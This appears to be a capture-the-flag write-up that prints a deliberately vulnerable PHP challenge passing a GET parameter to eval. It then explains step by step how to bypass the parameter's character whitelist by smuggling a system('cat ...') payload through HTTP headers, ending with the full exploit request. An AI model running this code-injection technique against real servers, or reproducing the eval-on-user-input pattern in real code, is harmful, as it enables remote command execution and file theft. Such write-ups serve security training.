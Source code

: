 ### Code: 

```php
<?php

function get_lucky_word() {
    $words = array("Chuc mung nam moi", "gongxifacai", "happy new year!", "bonne année", "Akemashite omedeto gozaimasu", "Seh heh bok mahn ee bahd euh sae yo", "kimochi", "Feliz Año Nuevo", "S novim godom", "Gelukkig Nieuwjaar", "selamat tahun baru", "iniya puthandu nal Vazhthukkal");
    return $words[array_rand($words)];
}

function get_lucky_number() {
    $numb = rand(0,100);
    return strval($numb);
}


if(!isset($_GET["roll"])) {
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

    if($wl === 0 || strlen($_GET["roll"]) > 50) {
        die("bumbadum badum");
    }
    eval("echo ".$_GET["roll"]."();");
}

?>

```

# Explanation: #
In above code only parameter is "roll". If parameter is not passed then source code is shown otherwise parameter is processed.
## Constraints
There are some constraints on roll parameter:-
### 1. Length
Length should be less than 50 characters.
### 2. Allowed Characters
- a-z
- (
-  )
-  _
-  .

## Target
Flag is in same directory in file "fl4g_here_but_can_you_get_it_hohoho.php".
1. We need to list all files in directory
2. We need to read flag file

## Obstacle
Roll parameter is too constrained to be used for exploitation. So we need to find another way to deliver our payload, and then execute using roll parameter.
## Failed Attempt
As same as everyone, I wasted many hours on using system command

We can easily list files using

```?roll=system(ls)```

So our first target of finding file name is completed, But when I tried reading file using

```?roll=readfile(system(ls))```

it only showed content of index.php, Why?

On [PHP System Page](https://www.php.net/manual/en/function.system.php), mentioned
```Function Returns the last line of the command output on success```

So while system(ls) is displaying all files, it only passing last file name to readfile function. And same is true for other similar functions like exec, passthru.

## Exploitation:
So I braked problem in parts and solved like this:-

#### 1. Payload Delivery

Roll parameter was too small for payload, So I used HTTP headers for delivering payload

```User-Agent: eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'))```

Here, I am reading flag file using cat. cat is called by system function. And system function is string which is parsed as php code by eval.

#### 2. Reading Payload

So our payload is delivered, now we need to read this.

```getallheaders()``` can be used for reading all headers. But this will return a array. But if we use implode function like ```implode(getallheaders())```, then it will create a string of all the VALUES of array as a string. like,

```
192.46.227.32 eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8en-US,en;q=0.5gzip, deflate1close11max-age=0

```

So now we have our payload ready. We can execute php code in above string using eval. So final url will be 

```192.46.227.32/?roll=(eval(implode(getallheaders())))```

#### 3. Final step
Our php code in above string also has other stuff and when eval will try to execute it will crash. So we should comment out that. How?
I created two more custom headers, where first one is on top of all header and had starting of php comment /* and last header I included had ending of php comment. And I changed payload to closed opened comment on start and close on end. So final request become like this

```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
xyz: /*test
Host: 192.46.227.32
User-Agent: */ eval(system('cat fl4g_here_but_can_you_get_it_hohoho.php'));/*
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
abc: tses*/
```
